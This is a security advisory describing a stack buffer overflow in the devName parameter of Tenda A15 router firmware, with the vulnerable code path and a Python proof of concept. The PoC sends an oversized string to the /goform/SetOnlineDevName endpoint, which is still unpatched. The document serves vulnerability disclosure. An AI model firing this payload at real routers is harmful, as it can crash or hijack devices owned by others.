


# Tenda A15 V15.13.07.13 was discovered to contain a stack overflow vulnerability in the "devName" parameter at /goform/SetOnlineDevName.

## Vulnerability Description

Vendor: Tenda

Product: A15

Version: US_A15V1.0RTL_V15.13.07.13_multi_TD01

Type: Buffer Overflow

Firmware link: https://www.tendacn.com/download/detail-3187.html

## Vulnerability Details

In the formSetDeviceName function, the devName parameter is obtained via websGetVar and passed to the first parameter of set_device_name



In the set_device_name function, the dev_name variable is only verified for existence and is used in the sprintf function without any length checks, which could lead to an attacker using this buffer overflow to perform DOS attacks and RCE attacks.



## POC

```python
import requests
ip = '192.168.159.128'
url = f'http://{ip}/goform/SetOnlineDevName'
payload = {
    "mac": '9c:fc:e8:da:9c:5b',
    "devName": 'devname1'*0x1000
}
res = requests.post(url=url, data=payload)
print(res.content)

```

## Trigger details

See video content
<video src="https://raw.githubusercontent.com/yaoyue123/iot/main/Tenda/A15/devname.mp4" width="640" height="480" controls></video>

## Solution

The vendor has not yet provided a fix for the vulnerability, please watch the vendor's homepage for updates:
https://www.tendacn.com/us/product/a15.html
